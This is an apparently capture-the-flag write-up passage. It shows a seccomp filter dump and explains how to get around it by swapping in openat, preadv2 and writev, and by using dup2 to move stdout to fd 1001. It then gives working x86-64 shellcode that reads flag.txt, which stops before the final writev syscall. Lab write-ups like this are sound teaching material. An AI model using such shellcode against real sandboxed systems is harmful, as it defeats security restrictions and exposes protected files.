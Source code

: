 ```c
 0017: 0x15 0x00 0x05 0x00000014  if (A != writev) goto 0023
 0018: 0x20 0x00 0x00 0x00000014  A = fd >> 32 # writev(fd, vec, vlen)
 0019: 0x25 0x03 0x00 0x00000000  if (A > 0x0) goto 0023
 0020: 0x15 0x00 0x03 0x00000000  if (A != 0x0) goto 0024
 0021: 0x20 0x00 0x00 0x00000010  A = fd # writev(fd, vec, vlen)
 0022: 0x25 0x00 0x01 0x000003e8  if (A <= 0x3e8) goto 0024
 0023: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0024: 0x06 0x00 0x00 0x00000000  return KILL
```
To get the flag, the normal way is trying to get together ORW(open, read, write). We can use `openat` to replace `open`, `preadv2` to replace `read` and `writev` to replace `write`.

Notice the constrain on `writev` tells us we couldn't directly use `1`(`STDOUT`) as the `fd` for `writev`. Instead, we use a `dup2` syscall, which is not banned, to copy `STDOUT` to a high `fd` greater than 0x3e8(1000) to bypass it.

The first part of the shellcode was generated with `shellcraft.amd64.openat(-100,'flag.txt',0,0)` and the rest was under the help of AI.

```s
section .text
    global _start
_start:
    sub rsp, 0x100
    push 1
    dec byte [rsp]
    mov rax, 0x7478742e67616c66
    push rax
    mov rsi, rsp
    push -0x64
    pop rdi
    xor edx, edx
    xor eax, eax
    mov ax, 0x101
    xor r10, r10
    syscall
    mov ebx, eax


    lea rdi, [rsp]       
    mov esi, 0x100       
    mov [rsp + 0x100], rdi 
    mov [rsp + 0x108], esi 


    mov eax, 327         
    mov edi, ebx         
    lea rsi, [rsp + 0x100] 
    mov rdx, 1           
    xor r10, r10         
    xor r8, r8           
    syscall

    mov eax, 33
    mov edi, 1
    mov esi, 1001
    syscall

    mov eax, 20  
    mov edi, 1001
    lea rsi, [rsp+0x100]
    mov rdx, 1
    xor r8, r8
    xor r9, r9
```